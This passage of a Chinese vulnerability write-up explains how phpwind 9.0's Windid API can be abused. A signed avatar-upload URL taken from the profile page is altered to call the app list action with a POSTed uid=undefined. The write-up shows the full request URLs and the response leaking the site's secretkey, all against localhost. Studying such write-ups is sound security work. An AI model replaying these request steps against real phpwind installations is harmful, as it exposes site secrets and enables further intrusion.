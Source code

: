 内的代码：

```
$key = WindidUtility::appKey($appId, $time, $appKey, array('uid'=>$uid, 'type'=>'flash'), array('uid'=>'undefined'));

…… 
```

去头像页面查看一下源文件

[`localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar`](http://localhost/phpwind/index.php?m=profile&c=avatar&_left=avatar)

![](img/16220425e3ff6c16c6caee43356d907e6b0bac8b.jpg)

解出 urldecode 得：

[`localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/index.php?m=api&c=avatar&a=doAvatar&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash&avatar=http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

去掉

&avatar=[`localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418`](http://localhost/phpwind/windid/attachment/avatar/000/00/00/1.jpg?r=88418)

然后记得，还需要 POST 一个 uid 等于 undefined

把 doAvatar 换成 list,avatar 换成 app 得：

[`localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash`](http://localhost/phpwind/windid/index.php?m=api&c=app&a=list&uid=1&windidkey=f5b35f56c88695b9069e18ecaafad874&time=1408197299&clientid=1&type=flash)

POST：uid=undefined

得：

{"1":{"id":"1","name":"phpwind9.0","siteurl":"http:\/\/localhost\/phpwind","siteip":"","secretkey":"73e3dcdd733c7c3733c17273a624e162","apifile":"windid.php","charset":"gbk","issyn":"1","isnotify":"1"}}

![](img/16220929812927fb46cb3f7f5d75bd5ba3c50dee.jpg)
